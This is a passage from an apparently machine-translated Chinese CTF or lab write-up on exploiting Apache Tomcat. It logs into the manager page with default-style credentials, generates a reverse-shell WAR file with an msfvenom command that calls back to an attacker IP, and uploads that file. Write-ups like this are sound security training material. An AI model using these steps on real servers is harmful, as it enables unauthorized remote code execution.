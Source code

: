 # 剥削

Apache Tomcat 允许您运行代码，因此我们可以上传一个 war 文件，该文件将一个反向 shell 发送回我们的 Kali 机器。首先，我们将访问/manager/html 页面，并使用我们的凭证“tomcat:s3cret”登录。现在我们可以看到这个网页:

![](img/cb2d5429de5ea5bb551730be9911a895.png)

Tomcat Web 应用程序管理器

使用 msfvenom，我们可以生成一个包含反向外壳的 war 文件。该命令可能如下所示:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.11 LPORT=1234 -f war > shell.war
```

p 参数代表“有效负载”。我选择了“Java/JSP _ shell _ reverse _ TCP payload”。然而，还有其他有效载荷也可以工作。之后，我指定了 LPORT，它可以是随机的。f 参数代表“格式”。我们想上传一个 war 文件，所以格式是 war。>符号将在名为“shell.war”的文件中输出漏洞。

现在我们将简单地上传 war 文件:

![](img/ccfc12b9e15a8790aef0a163232aeaa7.png)

War 文件上传

我们的 shell 已成功上传:

